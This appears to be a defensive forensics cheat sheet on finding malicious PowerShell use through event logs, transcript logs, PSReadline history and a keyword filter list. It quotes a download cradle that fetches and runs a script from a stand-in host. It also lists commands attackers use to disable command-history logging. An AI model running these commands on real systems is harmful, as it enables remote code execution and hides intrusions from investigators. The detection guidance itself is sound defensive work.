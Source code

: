 - (New-ObjectSystem.Net.WebClient).DownloadFile()
- Start-BitsTransfer
- Invoke-WebRequest



### Quick Wins - PowerShell
- PowerShell/Operational Log
	- EID 4103 records module/pipeline output
	- EID 4104 record code (scripts) executed (look for "Warning" events)
- PowerShell download cradle heavily used in the wild
	- ```IEX (New-Object Net.WebClient).dowloadstring("http://bad.com/bad.ps1")```
- Filter using commonly abused keywords
	- download
	- IEX
	- rundll32
	- http
	- Start-Process
	- Invoke-Expression
	- Invoke-Command
	- syswow64
	- FromBase64String
	- WebClient
	- bitstransfer
	- Reflection
	- powershell -version
	- Invoke-WmiMethod
	- Invoke-CimMethod
- Look for encoding and obfuscation
	- Character frequency analysis [Revoke-Obfuscation](https://github.com/danielbohannon/Revoke-Obfuscation)
	- [CyberChef](https://github.com/gchq/CyberChef)
	- [PSDecode](https://github.com/R3MRUM/PSDecode)
	- [Finding Encoded PS Scripts](https://www.youtube.com/watch?v=JWC7fzhvAY8
)



### PowerShell Transcript Logs
- Records input/output to the powershell terminal
- Not enabled by default (available in PS v4)
- Written to ```\Users\<account>\Documents```
- Can be auto forwarded
- GPO: Computer Configuration/Administrative Templates/Windows Components/Windows Powershell/Turn on Powershell Transcription

### PSReadline
- ```ConsoleHost_history.txt```
- ```%UserProfile%\Roaming\Microsoft\Windows\PowerShell\PSReadline```
- Records last 4096 commands typed in PS console (not ISE)
- Enabled by default in Win10/PowerShell v5
- Attackers can disable (or Remove PsReadLine module)
	- ```Set-PSReadLineOption -HistorySaveStyle SaveNothing```
	- ```Remove-Module -Name PsReadline```
